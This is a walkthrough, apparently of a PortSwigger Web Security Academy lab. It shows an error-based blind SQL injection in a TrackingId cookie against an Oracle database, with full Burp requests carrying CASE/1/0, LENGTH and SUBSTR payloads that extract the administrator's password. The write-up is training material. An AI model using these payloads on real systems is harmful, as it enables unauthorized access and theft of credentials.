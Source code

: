 *This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user.*

Upon loading the page, I clicked on *My account* and checked my HTTP History. For the request : 
```Burp 
GET /login HTTP/2
Host: 0a7f00bf04e42eee80157b93006700de.web-security-academy.net
Cookie: TrackingId=PfJD9RLxfNj8UB1J; session=LZsMcf4PGNcPaQ3Sv51r4vujGd0db0yj
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7f00bf04e42eee80157b93006700de.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
There was no visible change in the response. 

I decided to try to trigger a error response based on conditions. I first checked if there was a chance for SQLi vulnerability by modifying the request in the Repeater: 
```Burp 
ET /login HTTP/2
Host: 0a7f00bf04e42eee80157b93006700de.web-security-academy.net
Cookie: TrackingId=PfJD9RLxfNj8UB1J'; session=LZsMcf4PGNcPaQ3Sv51r4vujGd0db0yj
...
```
An error was received int as seen below: 
```Burp 
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2324
```
I then checked if the application interprets the injection as a query by adding one more ' mark: 
```Burp 
GET /login HTTP/2
Host: 0a7f00bf04e42eee80157b93006700de.web-security-academy.net
Cookie: TrackingId=PfJD9RLxfNj8UB1J''; session=LZsMcf4PGNcPaQ3Sv51r4vujGd0db0yj
```
This returns a OK response with no error: 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3149
```

Given that this database is Oracle, I modified the query in the repeater to as such: 
```Burp 
GET /login HTTP/2
Host: 0a8800880470e35e802508ae00c9003f.web-security-academy.net
Cookie: TrackingId=dZw12EJsZs1wnBk'AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 1/0 END FROM dual)=1--;
...
```
This checks if any error would be thrown from a `TRUE`  statement. The following successful response was received: 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3149
```
I then checked if any error would be thrown from a `FALSE` statement. I modified the request to the following: 
```Burp 
GET /login HTTP/2
Host: 0a8800880470e35e802508ae00c9003f.web-security-academy.net
Cookie: TrackingId=dZw12EJsZs1wnBk'AND (SELECT CASE WHEN (1=2) THEN 1 ELSE 1/0 END FROM dual)=1--; 
```
The following error response was observed: 
```Burp 
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2324
```
I can now modify the request to check if there is a user named *administrator*: 
```Burp 
GET /login HTTP/2
Host: 0a8800880470e35e802508ae00c9003f.web-security-academy.net
Cookie: TrackingId=dZw12EJsZs1wnBk'AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 1/0 END FROM users WHERE username='administrator')=1--;
...
```
The response was successful: 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3149
```
Now to verify the password length, I passed this into the Repeater:  
```Burp 
GET /login HTTP/2
Host: 0abb003e0491d6398054f83d00900092.web-security-academy.net
Cookie: TrackingId=ZrWXzpJw6Bn01yk5'||(SELECT CASE WHEN LENGTH(password)>=1 THEN NULL ELSE to_char(1/0) END FROM users WHERE username ='administrator')--;
...
```
I sent this modified request to Intruder to increment the value of length until I received an error: 
```Burp 
GET /login HTTP/2
Host: 0abb003e0491d6398054f83d00900092.web-security-academy.net
Cookie: TrackingId=ZrWXzpJw6Bn01yk5'||(SELECT CASE WHEN LENGTH(password)>=§1§ THEN NULL ELSE to_char(1/0) END FROM users WHERE username ='administrator')--; 
...
```
This was the result of starting the attack using a numbers payload from 1-50:
![Screenshot 2024-05-02 at 4.05.44 PM](images/Screenshot%202024-05-02%20at%204.05.44%20PM.png)

This shows us that the length of the password is 20. 

Now it is time for us to find the value of the character at each index of the password. 
Modified the following request to the following: 
```Burp 
GET /login HTTP/2
Host: 0abb003e0491d6398054f83d00900092.web-security-academy.net
Cookie: TrackingId=ZrWXzpJw6Bn01yk5'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN NULL ELSE to_char(1/0) END FROM users WHERE username ='administrator')--;
```
Sent this to Intruder, used *Cluster Bomb* and created the payloads as seen below: 
```Burp 
GET /login HTTP/2
Host: 0abb003e0491d6398054f83d00900092.web-security-academy.net
Cookie: TrackingId=ZrWXzpJw6Bn01yk5'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN NULL ELSE to_char(1/0) END FROM users WHERE username ='administrator')--; 
```
![Screenshot 2024-05-02 at 4.21.17 PM](images/Screenshot%202024-05-02%20at%204.21.17%20PM.png)
![Screenshot 2024-05-02 at 4.21.45 PM](images/Screenshot%202024-05-02%20at%204.21.45%20PM.png)
Once the attack was finished, I sorted the payloads by payload number 1 and by status code 200. 
Piecing those with status code 200, I received the following password: 
`7a3jk3m8a3cy05k1jy4o`

Managed to log in successfully!

![Screenshot 2024-05-02 at 4.30.02 PM](images/Screenshot%202024-05-02%20at%204.30.02%20PM.png)
